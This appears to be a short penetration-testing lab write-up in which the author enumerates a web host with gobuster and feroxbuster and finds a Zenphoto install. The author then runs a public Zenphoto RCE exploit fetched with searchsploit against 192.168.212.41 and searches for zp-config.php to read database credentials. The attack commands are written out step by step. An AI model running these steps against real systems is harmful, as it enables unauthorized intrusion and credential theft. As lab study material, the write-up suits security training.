






# Mapping
**.robot:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```

Found test:
Now accessing it:

We have zenphoto.

We can search for exploits:

We have a RCE exploit.

Trying it:
```
searchsploit -m php/webapps/18083.php
```
```
php 18083.php
```

```
php 18083.php 192.168.212.41 /test/
```

We have code execution.

Now we can look for files in the directory.

Now to find the file:
```
find / -type f -name "zp-config.php" 2>/dev/null
```

We can read it:

We have some info on the database